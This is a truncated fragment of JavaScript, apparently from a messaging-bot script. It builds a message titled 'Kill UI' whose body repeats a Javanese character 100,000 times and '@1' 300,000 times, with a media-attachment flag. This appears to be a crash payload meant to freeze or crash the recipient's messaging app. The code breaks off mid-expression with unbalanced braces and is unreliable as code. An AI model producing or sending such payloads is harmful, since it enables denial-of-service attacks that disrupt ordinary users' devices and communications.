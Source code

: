 },

hasMediaAttachment:true
},
body: { text: "𝗝𝘂𝘀𝘁𝗶𝗻𝗻𝘄𝗶 𝗞𝗶𝗹𝗹 𝗨𝗜🗡🎭" + "ꦾ".repeat(100000) + "@1".repeat(300000 
         
               },
